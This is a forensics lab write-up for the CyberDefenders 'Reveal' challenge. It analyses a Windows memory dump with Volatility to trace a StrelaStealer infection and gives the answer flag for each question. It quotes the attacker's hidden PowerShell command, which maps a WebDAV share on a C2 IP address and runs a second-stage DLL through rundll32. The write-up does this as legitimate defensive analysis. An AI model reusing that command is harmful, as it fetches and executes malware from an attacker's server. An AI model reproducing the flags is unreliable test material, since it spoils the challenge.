




# CyberDefenders Lab: Reveal Writeup

**Category:** Endpoint / Memory Forensics | **Difficulty:** Easy

**Scenario:** You are a forensic investigator at a financial institution, and your SIEM flagged unusual activity on a workstation with access to sensitive financial data. Suspecting a breach, you received a memory dump from the compromised machine. Your task is to analyze the memory for signs of compromise, trace the anomaly's origin, and assess its scope to contain the incident effectively.

---

### Q1: Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?

*   **Approach:** Use the `windows.malware.malfind` plugin to scan and analyze memory regions exhibiting signs of Code/Memory Injection.
*   **Steps Taken:** Execute the command `python3 vol.py -f 192-Reveal.dmp windows.malware.malfind`. The analysis results show that the `powershell.exe` process (PID: 3692) contains memory segments granted `PAGE_EXECUTE_READWRITE` (RWX) permissions. Under normal operating conditions, this process rarely requests simultaneous execute and write permissions on the same memory segment. This is a classic indicator of Fileless Malware execution techniques aimed at evading static detection mechanisms of Antivirus/EDR solutions.
*   **Evidence:**
    
*   **Flag:** `powershell.exe`

---

### Q2: Knowing the parent process ID (PPID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process?

*   **Approach:** Use the `windows.pstree` plugin to reconstruct the process tree, thereby identifying the Parent Process and tracing the initial execution flow.
*   **Steps Taken:** Execute the command `python3 vol.py -f 192-Reveal.dmp windows.pstree`. From the output, locate the `powershell.exe` process (PID: 3692). By cross-referencing the parameter in the PPID column, we determine the identifier of the parent process is `4120`. 
*   **Evidence:**
    
*   **Flag:** `4120`

---

### Q3: Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload?

*   **Approach:** Extract and analyze the Command Line arguments of the suspicious process.
*   **Steps Taken:** By analyzing the process's command-line arguments using the `windows.cmdline` plugin (or directly from the `pstree` output), we obtain the execution string: 
    `powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`
    This syntax indicates that the attacker designated the `rundll32.exe` system utility to call and execute a dynamic link library file named `3435.dll`. This file acts as the second-stage payload in the attack chain.
*   **Evidence:**
    
*   **Flag:** `3435.dll`

---

### Q4: Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?

*   **Approach:** Analyze the Network Indicators from the command line parameters.
*   **Steps Taken:** Based on the command string extracted in Q3, the syntax `net use \\45.9.74.32@8888\davwwwroot\` demonstrates the behavior of mapping a shared directory on the C2 (Command and Control) server to the local system via the WebDAV/SMB protocol. The name of the shared directory is identified as `davwwwroot`.
*   **Evidence:**
    
*   **Flag:** `davwwwroot`

---

### Q5: What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?

*   **Approach:** Map the execution behavior to the MITRE ATT&CK security framework.
*   **Steps Taken:** The act of using `rundll32.exe` to execute a malicious `.dll` file is a LOLBAS (Living Off The Land Binaries and Scripts) technique. Abusing legitimate executable files with native operating system digital signatures helps the malware conceal its operational flow (Proxy Execution) and bypass security controls. Searching the MITRE ATT&CK database, this technique is identified as **Signed Binary Proxy Execution: Rundll32**.
*   **Evidence:**
    
*   **Flag:** `T1218.011`

---

### Q6: Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?

*   **Approach:** Extract Security Identifiers (SIDs) information to determine the user identity and the privilege level of the process.
*   **Steps Taken:** Execute the command `python3 vol.py -f 192-Reveal.dmp windows.getsids.GetSIDs | grep "3692"`. The result returns a list of SIDs associated with the process. Correlating with the system structure, the user identity (bearing RID 1001) owning this execution thread is `Elon`. Identifying the user context reveals that the compromised account possesses both `Administrators` and `Domain Users` privileges, signaling a severe security risk.
*   **Evidence:**
    
*   **Flag:** `Elon`

---

### Q7: Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family?

*   **Approach:** Integrate Threat Intelligence data to identify the Malware Family.
*   **Steps Taken:** First, from the command-line argument tracing results, we identify the malicious C2 IP address as `45.9.74.32`. Next, extract this Indicator of Compromise (IOC) and perform a cross-query on the VirusTotal security analysis platform. The behavioral data and community reports indicate that this attack chain and network infrastructure belong to the **StrelaStealer** malware family - a malware variant specializing in collecting and stealing login credentials from Email Clients.
*   **Evidence:**
    
    *Figure 1: Identifying malicious IP from the executing process.*
    
    
    *Figure 2: Search results identifying the StrelaStealer malware on VirusTotal.*
*   **Flag:** `StrelaStealer`
